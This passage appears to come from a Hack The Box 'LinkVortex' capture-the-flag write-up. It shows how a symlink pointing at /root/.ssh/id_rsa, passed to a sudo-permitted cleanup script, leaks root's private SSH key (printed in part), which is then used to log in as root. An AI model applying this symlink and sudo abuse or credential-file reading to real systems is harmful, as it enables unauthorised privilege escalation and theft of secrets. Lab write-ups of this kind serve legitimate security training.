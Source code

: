 ![htb-linkvortex-root-txt](images/HTB-linkvortex/htb-linkvortex-root-txt.png)
### Root Shell
Similarly we can leak `root`'s private `ssh` key to get a `root` shell
```bash
bob@linkvortex:~$ ln -s /root/.ssh/id_rsa id_rsa
bob@linkvortex:~$ ln -s $(pwd)/id_rsa proxy.png
bob@linkvortex:~$ sudo /usr/bin/bash /opt/ghost/clean_symlink.sh proxy.png 
Link found [ proxy.png ] , moving it to quarantine
Content:
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAmpHVhV11MW7eGt9WeJ23rVuqlWnMpF+FclWYwp4SACcAilZdOF8T
q2egYfeMmgI9IoM0DdyDKS4vG+lIoWoJEfZf+cVwaZIzTZwKm7ECbF2Oy+u2SD+X7lG9A6
V1xkmWhQWEvCiI22UjIoFkI0oOfDrm6ZQTyZF99AqBVcwGCjEA67eEKt/5oejN5YgL7Ipu
# ...
```

Copy it to your machine, change the permissions, and login
```bash
┌──(kali@kali)-[~/linkvortex.htb]
└─$ vim id_rsa

┌──(kali@kali)-[~/linkvortex.htb]
└─$ chmod 600 id_rsa 

┌──(kali@kali)-[~/linkvortex.htb]
└─$ ssh -i id_rsa root@linkvortex.htb
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.5.0-27-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Mon Dec  2 11:20:43 2024 from 10.10.14.61
root@linkvortex:~# id
uid=0(root) gid=0(root) groups=0(root)
```

